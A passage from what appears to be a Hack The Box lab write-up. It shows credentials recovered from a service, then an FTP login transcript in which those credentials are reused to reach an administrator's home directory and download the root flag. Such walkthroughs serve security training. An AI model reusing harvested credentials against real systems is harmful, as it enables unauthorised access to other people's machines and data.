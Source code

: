 ![Credentials after execution](json_dotnet-2.png)

```
superadmin:funnyhtb
```

As the service is called _Sync2Ftp_, the credentials may work on the FTP service:
```
ftp 10.10.10.158

Connected to 10.10.10.158.                                                                         
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit https://filezilla-project.org/
Name (10.10.10.158:root): superadmin
331 Password required for superadmin
Password:
230 Logged on
```

It works and the home directory of _superadmin_ is accessible from the FTP service and _root.txt_ can be downloaded!

> NOTE: Unfortunately the user has no permissions to use PowerShell remoting and also switching users is not possible.
